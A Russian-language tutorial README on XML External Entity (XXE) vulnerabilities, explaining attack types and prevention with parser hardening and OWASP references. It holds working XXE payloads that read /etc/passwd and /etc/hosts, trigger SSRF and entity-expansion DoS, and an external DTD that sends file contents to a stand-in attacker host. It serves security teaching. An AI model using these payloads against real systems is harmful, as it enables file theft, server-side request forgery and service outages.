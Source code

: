 # 🛠️ Уязвимость XML External Entity (XXE)

## 📜 Обзор

**XML External Entity (XXE)** — это тип атаки, нацеленный на приложения, обрабатывающие входные данные в формате XML. Если приложение неправильно обрабатывает или допускает использование внешних сущностей, злоумышленник может использовать это для:

- Доступа к конфиденциальной информации на сервере.
- Выполнения удалённого кода.
- Проведения атак типа "отказ в обслуживании" (DoS).
- Нарушения целостности и доступности системы.

---

## 🔍 Как это работает

1. **Определение внешней сущности XML**
   XML позволяет использовать внешние сущности — специальные теги для включения внешних данных или ресурсов.

2. **Неправильная обработка**
   Если приложение не валидирует или не фильтрует входные данные XML, возможно выполнение вредоносных внешних сущностей.

3. **Эксплуатация**
   Злоумышленники могут использовать XXE для кражи данных, взаимодействия с локальными файлами или выполнения удалённых HTTP-запросов через внедрение вредоносных сущностей.

---

## ⚙️ Виды атак XXE

1. **Раскрытие файлов**
   Доступ к конфиденциальным файлам на сервере, таким как конфигурационные файлы или закрытые ключи.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

2. **Server-Side Request Forgery (SSRF)**
   Принуждение сервера выполнять HTTP-запросы на произвольные адреса.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "http://malicious-site.com/malware">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

3. **Отказ в обслуживании (DoS)**
   Использование больших или рекурсивных полезных нагрузок для перегрузки парсера и вывода сервера из строя.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY a "b">
     <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
   ]>
   <root>
     <data>&b;</data>
   </root>
   ```

4. **Удалённое выполнение кода (RCE)**
   Выполнение команд на сервере (если поддерживается XML-процессором).

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY % init SYSTEM "http://malicious-site.com/malicious.dtd">
     %init;
   ]>
   <root/>
   ```

   **Вредоносный DTD (malicious.dtd):**
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
   %exfil;
   ```

5. **Слепая XXE (Blind XXE)**
   Сценарии, когда злоумышленник не может напрямую увидеть ответ, но может отправить внешние запросы для наблюдения за поведением.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "http://attacker.com/log?data=exfiltrated">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

6. **Out-of-Band (OOB) XXE**
   Использование сценариев, в которых данные передаются через DNS или другие протоколы, а не в HTTP-ответе.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "http://attacker-dns.com/?query=leak">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

---

## ⚠️ Пример сценария

Например, предположим, что приложение для совершения покупок проверяет уровень запасов товара, отправляя на сервер следующий XML-код:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Представьте приложение, принимающее XML для настройки параметров пользователя:

- Злоумышленник отправляет XML с внешней сущностью.
- Сервер обрабатывает сущность и выдаёт конфиденциальные данные.

**Пример полезной нагрузки:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/hosts">
]>
<foo>&xxe;</foo>
```

Злоумышленник получает содержимое файла `/etc/hosts`.

---

## 🛡️ Стратегии предотвращения

1. **Отключение обработки внешних сущностей**
   Настройте XML-парсер для отключения обработки внешних сущностей. Например, в Java:
   ```java
   DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
   dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   ```

2. **Используйте безопасные библиотеки**
   Используйте библиотеки, которые обрабатывают XML безопасно, например, `defusedxml` в Python.

3. **Валидация входных данных**
   Валидируйте и фильтруйте все входные данные XML перед обработкой.

4. **Настройка прав доступа**
   Ограничьте доступ к конфиденциальным файлам и ресурсам, которые могут быть использованы.

5. **Мониторинг и логирование**
   Обнаруживайте подозрительную активность, отслеживая необычные паттерны доступа к файлам или сети.

---

## 📚 Заключение

Уязвимости XXE представляют серьёзную угрозу для приложений, обрабатывающих XML. Понимая, как работают эти атаки, и внедряя надёжные меры безопасности, вы можете защитить свои приложения и их пользователей.

Для получения дополнительной информации об уязвимостях XXE посетите [OWASP XXE Prevention Cheatsheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

---

> **Помните:** Безопасность — это постоянный процесс. Будьте внимательны и обновляйте свои практики для защиты от новых угроз!
